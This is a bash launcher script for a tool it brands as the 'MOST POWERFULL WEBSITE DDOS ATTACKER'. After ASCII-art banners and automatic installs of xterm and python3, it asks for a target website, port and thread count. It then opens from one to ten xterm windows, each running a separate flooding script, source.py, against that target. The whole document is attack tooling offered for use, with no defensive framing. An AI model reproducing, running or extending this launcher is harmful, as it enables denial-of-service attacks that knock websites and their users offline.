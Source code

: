 white="\033[1;37m"
grey="\033[0;37m"
purple="\033[0;35m"
red="\033[1;31m"
green="\033[1;32m"
yellow="\033[1;33m"
Purple="\033[0;35m"
Cyan="\033[0;36m"
Cafe="\033[0;33m"
Fiuscha="\033[0;35m"
blue="\033[1;34m"
nc="\e[0m"
bln="\033[33m"
bc="\033[0m"

echo -e "$Cafe##############################################################################$nc"
echo -e "$Cafe##   \e[31m▄▄      ▄▄  \e[5msurya    ▄▄        ▄▄▄▄▄       ▄▄▄▄     $Cafe                   ##"
echo -e "$Cafe##   ██      ██           ██        ██▀▀▀██    ██▀▀██                  $Cafe     ##"
echo -e "$Cafe##   \e[31m▀█▄ ██ ▄█▀  ▄████▄   ██▄███▄   ██    ██  ██    ██  ▄▄█████▄   $Cafe         ##"
echo -e "$Cafe##   ██ ██ ██  ██▄▄▄▄██  ██▀  ▀██  ██    ██  ██    ██  ██▄▄▄▄ ▀   $Cafe          ##"
echo -e "$Cafe##   \e[31m ███▀▀███  ██▀▀▀▀▀▀  ██    ██  ██    ██  ██    ██   ▀▀▀▀██▄$Cafe            ##"
echo -e "$Cafe##    ███  ███  ▀██▄▄▄▄█  ███▄▄██▀  ██▄▄▄██    ██▄▄██   █▄▄▄▄▄██         $Cafe   ##" 
echo -e  "$Cafe##   \e[31m▀▀▀  ▀▀▀    ▀▀▀▀▀   ▀▀ ▀▀▀    ▀▀▀▀▀       ▀▀▀▀     ▀▀▀▀▀▀      $Cafe        ##"
echo -e "$Cafe##############################################################################$nc"
echo -e "##$red-------------MOST POWERFULL WEBSITE DDOS ATTACKER------------BY SURYA$nc     ##"
echo -e "$Cafe##############################################################################$nc"
echo -e "$cyan Author :-SURAJ CHAVDA$nc"




                                                                                
if xterm -version &>/dev/null; then
    echo -e "$purple xterm is installed ✅ $nc"
else
echo -e "\e[94mXTERM Is Installing.......\e[0m"
progressbar()
{
    bar="##################################################"
    barlength=${#bar}
    n=$(($1*barlength/100))
    printf "\r[%-${barlength}s (%d%%)] " "${bar:0:n}" "$1" 
}


pid=$!

apt-get install xterm > /dev/null

for i in `seq 1 100`;
do
    progressbar $i
    sleep 0.1
done 
# kill the spinner task
kill $pid > /dev/null 2>&1
echo $'\n*\n*\n\e[97mXTERM Successfully Installed on Your OS\e[0m'
fi  
if command -v python3 &>/dev/null; then
    echo -e "$purple Python 3 is installed ✅$nc"
else

echo -e "\e[94mPython3 Is Installing.......\e[0m"
progressbar()
{
    bar="##################################################"
    barlength=${#bar}
    n=$(($1*barlength/100))
    printf "\r[%-${barlength}s (%d%%)] " "${bar:0:n}" "$1" 
}


pid=$!

apt-get install python3 > /dev/null

for i in `seq 1 100`;
do
    progressbar $i
    sleep 0.1
done  
# kill the spinner task
kill $pid > /dev/null 2>&1 
echo $'\n*\n*\n\e[97mPython3 Successfully Installed on Your OS\e[0m'
fi
read -p $'\033[0;37mEnter The Website\e[0m     :- ' web
read -p $'\033[0;37mEnter The Port  \e[0m      :- ' port
read -p $'\033[0;37mEnter The Thread[133]\e[0m :- ' thread

echo "##################################################################"
echo -e "#$red NO.$nc|$red   MODE $nc                                                   #"
echo "##################################################################"
echo -e "#$yellow 1 :Single DDOS Attack                                          $nc#"
echo -e "#$yellow 2 :Double DDOS Attack                                          $nc#" 
echo -e "#$yellow 3 :Triple DDOS Attack $nc $red DDDD  DDDD                             $nc#"
echo -e "#$yellow 4 :Four   DDOS attack $nc $red D   D D   D       SSSS                 $nc#"
echo -e "#$yellow 5 :Five   DDos attack $nc $red D   D D   D  OOO  S                    $nc#"
echo -e "#$yellow 6 :Six    DDOS attack $nc $red D   D D   D O   O SSSS                 $nc#"
echo -e "#$yellow 7 :Seven  DDOS attack $nc $red D   D D   D O   O    S                 $nc#"
echo -e "#$yellow 8 :Eight  DDOS attack $nc $red DDDD  DDDD   OOO  SSSS                 $nc#"
echo -e "#$yellow 9 :Nine   DDOS attack                                          $nc#"
echo -e "#$yellow 10:Ten    DDOS attack                                          $nc#"
echo "##################################################################"
echo -e "---------------------------"
read -p "ENTER MODE NUMBER ⤴  :- " SA



if [ $SA = 1 ]; then
xterm -e python3 source.py -s $web -p $port -t $thread &
fi

if [ $SA = 2 ]; then
for i in {1..2}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done


fi
if [ $SA = 3 ]; then
for i in {1..3}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi

if [ $SA = 4 ]; then
for i in {1..4}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi
if [ $SA = 5 ]; then
for i in {1..5}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi
if [ $SA = 6 ]; then
for i in {1..6}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi

if [ $SA = 7 ]; then
for i in {1..7}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi

if [ $SA = 8 ]; then
for i in {1..8}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi

if [ $SA = 9 ]; then
for i in {1..9}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi

if [ $SA = 10 ]; then
for i in {1..10}
do xterm -e python3 source.py -s $web -p $port -t $thread &
done
fi
echo "$red DDOS CLOSED $nc"


